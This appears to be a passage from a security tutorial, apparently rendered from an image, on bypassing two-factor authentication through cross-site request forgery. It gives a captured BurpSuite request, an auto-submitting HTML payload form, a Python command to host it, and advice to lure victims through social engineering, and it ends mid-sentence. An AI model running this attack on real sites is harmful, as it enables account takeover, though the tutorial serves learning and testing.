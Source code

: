     -   Enter your username and password to log in.
    -   You will be prompted to enter a 2FA code.
2.  **Capture the 2FA Request in BurpSuite**:
    
    -   Ensure interception is turned on in BurpSuite.
    -   Enter the 2FA code and submit the form.
    -   BurpSuite will capture the HTTP request. For example:
                
        `POST /verify_2fa HTTP/1.1
        Host: example.com
        Content-Type: application/x-www-form-urlencoded
        Content-Length: 40
        
        code=123456&session=abcdef123456` 
        
3.  **Analyze the Request**:
    
    -   Examine the request parameters. Look for the 2FA code and session identifiers.

### 4. Crafting the CSRF Attack

#### Create a Malicious HTML Form

1.  **Craft the CSRF Payload**:
    
    -   Create an HTML file with a form that mimics the 2FA request. For example:
                
        `<html>
        <body>
          <form action="http://example.com/verify_2fa" method="POST">
            <input type="hidden" name="code" value="123456">
            <input type="hidden" name="session" value="abcdef123456">
            <input type="submit" value="Submit request">
          </form>
          <script> document.forms[0].submit(); </script>
        </body>
        </html>` 
        
2.  **Host the HTML File**:
    
    -   Host this HTML file on a server controlled by the attacker or use a local web server.

#### Example of Hosting the Payload

You can use a simple Python HTTP server to host the HTML file:

`$ cd /path/to/html/file
$ python3 -m http.server 8080` 

### 5. Exploiting the CSRF Vulnerability

#### Deliver the Payload

1.  **Send the Link to the Victim**:
    
    -   Trick the victim into visiting the malicious HTML file. This can be done via email, social engineering, or other means. For example:
        